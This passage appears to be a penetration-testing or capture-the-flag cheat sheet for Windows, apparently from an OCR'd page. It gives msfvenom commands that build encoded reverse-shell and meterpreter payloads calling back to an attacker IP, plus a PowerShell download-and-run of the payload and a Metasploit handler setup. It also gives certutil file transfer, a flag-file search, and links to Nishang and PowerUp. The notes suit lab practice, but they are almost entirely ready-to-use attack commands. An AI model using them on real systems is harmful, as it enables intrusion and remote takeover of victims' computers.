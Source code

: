 - find particular file

  ```bash
  find / -type f -iname '*.flag' -exec echo {} \; -exec cat {} \;  2>/dev/null
  ```



# Windows

Windows privilege escalation - PowerUp.ps1

initial access - [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) ([Nishang](https://github.com/samratashok/nishang) is a useful set of scripts for initial access, enumeration and privilege escalation)

- reverse shell

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=10.13.35.230 LPORT=12345 -e x86/shikata_ga_nai -f exe -o ASCService.exe
  ```

- switch to meterpreter shell

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
  python3 -m http.server <port>
  ```

  then, on windows

  ```powershell
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
  ```

  on metasploit

  ```bash
  use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
  ```

  on windows

  ```powershell
  Start-Process "shell-name.exe"
  ```

- transfer files

  python http.server on kali, then on windows command line, 

  ```
  certutil -urlcache -f http://$your_ip/chatserver.exe chatserver.exe
  ```

  

### Information Gathering
